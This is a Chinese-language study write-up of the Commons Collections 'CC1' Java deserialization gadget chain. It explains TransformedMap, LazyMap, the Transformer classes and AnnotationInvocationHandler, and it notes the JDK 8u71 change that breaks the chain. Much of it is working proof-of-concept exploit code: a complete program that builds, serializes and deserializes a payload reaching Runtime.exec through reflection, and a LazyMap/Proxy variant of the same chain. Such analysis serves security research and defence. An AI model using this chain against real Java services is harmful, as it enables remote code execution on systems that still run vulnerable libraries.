






- [CC1链](#cc1链)
  - [前置知识](#前置知识)
    - [TransformedMap](#transformedmap)
    - [Transformer接口](#transformer接口)
    - [ConstantTransformer](#constanttransformer)
    - [InvokerTransformer](#invokertransformer)
    - [ChainedTransformer](#chainedtransformer)
    - [组合利用](#组合利用)
  - [AnnotationInvocationHandler](#annotationinvocationhandler)
  - [POC构造](#poc构造)
    - [Transformer构造](#transformer构造)
    - [InvocationHandler构造](#invocationhandler构造)
    - [完整POC](#完整poc)
  - [LazyMap](#lazymap)
    - [AnnotationInvocationHandler#invoke](#annotationinvocationhandlerinvoke)
    - [POC构造](#poc构造-1)
  - [8u71之后](#8u71之后)
# CC1链
该链一共两种触发方式.  
一种通过TransformedMap在AnnotationInvocationHandler#readObject()中调用setValue时触发设置的修饰回调进入Transformer利用链.  
一种通过LazyMap在找不到指定值时会调用get()方法,其中又调用了factory.transformer方法进入Transformer利用链.其中利用了Proxy代理机制来进入
AnnotationInvocationHandler的invoke方法,其中正好可以触发对应的get方法.
## 前置知识
### TransformedMap
TransformedMap是commons-collections组件中提供的辅助类,作用是对Map数据结构进行修饰,被修饰后的Map在添加新元素时,可以执行一个实现了Transformer接口的类
```java
Map outerMap = TransformedMap.decorate(innerMap, keyTransformer,valueTransformer);
```
参数innerMap即是被修饰的Map.  
参数keyTransformer是要对key执行实现了Transformer接口的类.  
参数valueTransformer是要对value执行实现了Transformer接口的类. 
参数即是相对应的key,value对象.
### Transformer接口
该接口代码如下,只有一个待实现的transform接口.
```
public interface Transformer {
 public Object transform(Object input);
}
```
### ConstantTransformer
ConstantTransformer是一个实现了Transformer接口的类,其transform方法如下:
```java
public class ConstantTransformer implements Transformer, Serializable {
    static final long serialVersionUID = 6374440726369055124L;
    public static final Transformer NULL_INSTANCE = new ConstantTransformer((Object)null);
    private final Object iConstant;
    public static Transformer getInstance(Object constantToReturn) {
        return (Transformer)(constantToReturn == null ? NULL_INSTANCE : new ConstantTransformer(constantToReturn));
    }
    public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }
    public Object transform(Object input) {
        return this.iConstant;
    }
    public Object getConstant() {
        return this.iConstant;
    }
}吗,
```
该类的作用是直接将输入的对象返回,方便后续操作.
### InvokerTransformer
InvokerTransformer类也是实现了Transformer接口,实现的Transformer接口如下:
```java
    public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
            } catch (NoSuchMethodException var5) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
            } catch (IllegalAccessException var6) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
            } catch (InvocationTargetException var7) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
            }
        }
    }
```
可以看到其获取输入对象的指定方法,然后利用反射执行该方法,其中指定的方法名,参数类型,参数在其构造函数中指定如下
```java
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
```
### ChainedTransformer
ChainedTransformer也是实现了Transformer接⼝的类,该类的作用是将多个Transformer串起来,让上一个transformer的结果作为下一个transformer的输入.  
transform方法如下:
```java
    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }

        return object;
    }
```
其构造方法接受一个transformers数组.
```java
    public ChainedTransformer(Transformer[] transformers) {
        this.iTransformers = transformers;
    }
```
### 组合利用
根据上面几个类,可以有如下构造思路,利用InvokerTransformer调用反射的功能来执行恶意指定方法.
1. 首先构造一个transformers数组,其中包含一个ConstantTransformer对象用来获取Runtime.getRuntime()对象和一个InvokerTransformer对象,其中指定方法名和参数.  
2. 再将该数组传入ChainedTransformer构造函数生成一个ChainedTransformer对象,利用其特性将获取到的Runtime.getRuntime()对象作为传入对象和一个InvokerTransformer中.  
3. 最终反射调用了Runtime.getRuntime()的exec方法执行命令
4. 构造一个Map类用transformerChain修饰,调用Map.put()方法触发transformerChain,然后触发上述利用链RCE.
```java
public class test {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"calc.exe"}),
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        outerMap.put("hands", "cold");
    }
}
```
但上述触发需要手动调用put方法进行触发,无法在实际场景利用.
## AnnotationInvocationHandler
在实际场景中则需要找到一个再反序列化过程中能自动触发put方法的类.
在AnnotationInvocationHandler的readObject()中.
> 测试8U41和8U20时,readObject()方法和其它人的不太一样,但最后的触发原理其实一致.
```java
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
```
其中通过迭代`AnnotationInvocationHandler`的memberValues,在最后调用了元素的`setValue`方法,也就是为元素添加值,也就会触发`TransformedMap`对其的修饰方法,也就是进入了上面的`Transformer`利用过程中.
## POC构造
### Transformer构造
在生成payload时,需要对生成的类进行序列化,但被序列化的对象和其使用的内部对象都要实现`Serializable`接口才行,但Runtime类并没有实现该接口,所以在构造`InvokerTransformer`的runtime对象时需要利用反射来执行其exec方法.
1. 先利用ConstantTransformer类来获取一个Runtime的class.
```java
 new ConstantTransformer(Runtime.class)
```
2. 第一个InvokerTransformer来利用getMethod来获取Runtime类的getRuntime方法.
```java
new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] })
```
3. 第二个InvokerTransformer来利用method.invoke来执行上面获得的getRuntime()方法,从而得到一个Runtime对象.
```java
  new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0]
                })
```
4. 第三个InvokerTransformer则调用Runtime.exec()方法并传入参数完成RCE.
```java
new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {
                                "calc.exe" })
```
5. 最后将其按顺序放入一个Transformer数组传入ChainedTransformer类中,使其一环扣一环按顺序执行.
```java
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0]
                }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {
                                "calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
```
### InvocationHandler构造
InvocationHandler类是内部类,无法通过new直接构造,需要通过反射来生成,代码如下.
```java
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,Map.class);
        construct.setAccessible(true);
```                            
在AnnotationInvocationHandler#readObject()中有几个判断条件满足后才会进入最后的setValue中
1. this.type要是AnnotationType的子类
```
 try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }
```
this.type即是InvocationHanlder构造函数的第一个参数  
2. var7不为空.
```java
  if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
```
而var7的值来自于`Class var7 = (Class)var3.get(var6);`,也就是从var3中的get方法获取,而var3如下:
```java
var2 = AnnotationType.getInstance(this.type);
...
Map var3 = var2.memberTypes();
```
也就是var3是InvocationHanlder构造函数第一个参数对象的所有参数类型,为一个Map.相关代码如下


而在AnnotationType的子类中有一个为Retention注解类,而该类只有一个成员value,相关代码如下.
  
通过传入Retention类,var3的值则是一个含有其唯一成员的Map,其中键名为`value`.

在分析var6的来源,其值其实是循环读取memberValues中数组的键名,那么var7不为空的条件即是`Class var7 = (Class)map.get("value") `,也就是我们构造InvocationHanlder时传入的memberValues Map中要有一个键为`value`的键值对,而第一个参数则是Retention注解类,最后的构造如下:
```java
Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Retention.class, outerMap);
```
### 完整POC
```java
public class test {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0]
                }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {
                                "calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Retention.class, outerMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```
调用栈如下:

## LazyMap
LazyMap和TransformedMap的区别在于触发的途径不同,TransformedMap是在添加新元素时触发我们的Transformer类利用反射来执行命令,而LazyMap是利用该类在其get方法找不到指定值时会执行factory.transform来进入Transformer利用链,Lazy#get方法如下:

### AnnotationInvocationHandler#invoke
使用LazyMap进行触发的条件在于要调用其get()方法,但AnnotationInvocationHandler#readObject中没有相应触发get方法的地方,但在AnnotationInvocationHandler#invoke中却有可利用的代码,代码如下

在其中调用了memberValues.get()方法,当我们把memberValues设置为LazyMap即可.
而AnnotationInvocationHandler本身就是一个InvocationHandler,也就是代理类,利用动态代理机制,被代理对象调用其任意方法前都会触发对应InvocationHandler的invoke方法来进入invoke方法中.
### POC构造
首先修改LazyMap部分,然后将对应的AnnotationInvocationHandler做代理,然后再将该代理放入一个InvocationHandler的memberValues中,利用第二个InvocationHandler#readObject时调用memberValues的方法时就会触发第一个代理的invoke方法了.
```java
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Retention.class, outerMap);
          Map proxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[] {Map.class}, handler);
        handler = (InvocationHandler) construct.newInstance(Retention.class,
                proxy);        
```
调用栈如下:

## 8u71之后
在8u71之后,在AnnotationInvocationHandler#readObject中作了修改,在添加新元素时不再使用我们添加了修饰器的Map,而是新建了一个LinkedHashMap,导致我们的修饰回调不再触发.
